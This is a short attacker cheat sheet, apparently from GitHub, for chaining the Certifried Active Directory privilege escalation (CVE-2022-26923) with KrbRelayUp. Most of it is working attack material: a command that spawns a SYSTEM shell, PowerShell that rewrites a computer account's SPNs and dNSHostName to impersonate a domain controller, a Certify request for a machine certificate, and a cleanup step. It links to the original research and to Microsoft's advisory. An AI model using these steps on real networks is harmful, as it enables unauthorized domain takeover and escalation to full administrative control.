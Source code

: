 ### Certifried combined with KrbRelayUp

### Prerequisites
```
WriteACL on computeraccount
Existence of machine certificate template
```

### Start SYSTEM cmd shell
```
KrbRelayUp.exe full -m shadowcred -f
```

### Remove SPNs and modify dNSHostName to a DC (save original values in variables $spn and $dns)
```
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f $Env:ComputerName
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()     
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "<domainControllerFqdn"
$obj.SetInfo()
```

### Request certificate using abused computer
```
.\Certify.exe request /ca:<domainControllerFqdn>\<certificateAuthority> /machine
```

### Restore computer attributes
```
$obj.dNSHostName = $dns
$spn | % { $obj.servicePrincipalName.Add($_) }
$obj.SetInfo()
```

### References
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
* https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923

